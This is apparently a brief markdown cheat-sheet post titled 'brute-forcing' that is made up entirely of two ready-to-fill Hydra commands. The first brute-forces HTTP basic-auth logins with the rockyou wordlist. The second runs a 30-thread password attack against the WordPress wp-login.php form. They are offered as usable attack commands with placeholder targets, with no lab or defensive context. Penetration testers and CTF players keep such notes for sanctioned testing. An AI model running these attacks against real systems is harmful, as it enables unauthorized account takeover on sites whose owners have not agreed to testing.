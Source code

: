 ```yaml
---
layout: post
title: "brute-forcing"
keywords: "brute, hydra, wordpress"
---
```

### HTTP
```
hydra -l <USER> -P /usr/share/wordlists/rockyou.txt -t 1 -f <ip> http-get <path>
```

### WordPress
```
hydra -L <USERFILE> -P <PASSFILE> $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
```